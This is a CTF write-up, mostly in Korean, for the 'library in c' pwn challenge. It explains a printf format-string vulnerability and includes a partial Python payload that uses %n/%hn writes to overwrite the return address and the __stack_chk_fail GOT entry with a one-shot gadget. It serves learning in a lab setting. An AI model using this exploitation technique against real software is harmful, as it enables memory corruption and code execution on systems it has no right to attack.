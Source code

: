 lib in c write up
---------------
pwn , 120pts

desc 
---------------
```
After making that trainwreck of a criminal database site, clam decided to move on and make a library book manager ... but written in C ... and without any actual functionality. What a fun guy. I managed to get the source and a copy of libc from him as well.

Find it on the shell server at /problems/2020/library_in_c, or over tcp at nc shell.actf.co 20201.

```

- 

files 
---------------

- challenge 
- source
- libc.so.6 (glic 2.23 -> ubuntu 16.04)

checksec 
---------------
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
solution 
---------------
fgets를 통해 64바이트만큼 두번의 입력을 받고 , 입력한 내용을 printf 두번으로 그대로 출력해 FSB가 유발된다. 
64바이트면 8번 입력이 가능한데, 어째 좀 적어보인다. 내가 원하는 대로 조작을 해보려면 여러번의 입력이 필요해보인다. 

일단 ret를 바꿔봐야 하므로, 
첫째 입력에서 스택주소를 leak 한 다음 ret 위치에 main 함수 시작부분 주소를 넣어주자. 
제일 처음 lx 로 스택주소가 나오는데, ret위치와 +0x2738만큼 균일하게 차이가 난다.
27번째에서 libc 주소가 나오고, 오프셋은 0x20830 이다.
따라서 해당값을 스택에 넣어준 다음 main의 시작주소를 덮어씌워주자. 

```

payload2 = st        
payload2 += "%21$n  "    #0x40

st = "%"+str(main[2])+"c"
st += " "*(8-len(st))

payload2 += st          #0x0747
payload2 += "%20$hn   "  

payload2 += p64(ret)         #20 -> 뒷부분
payload2 += p64(ret+2)       #21 -> 앞부분 

```

그 다음 got에 원샷가젯 주소를 덮어씌울건데 , 12바이트 주소를 덮어씌워야 하므로 3번의 입력이 필요하여
8*9 = 72 바이트 만큼 입력이 들어가야 한다 . 
두번째 반복때 카나리 체크 함수인 __stack_chk_fail 의  got를 덮어 씌우면서 
카나리가 있는 스택의 값을 건드려 해당 함수가 실행되게 만들것이다. 

풀이완료.



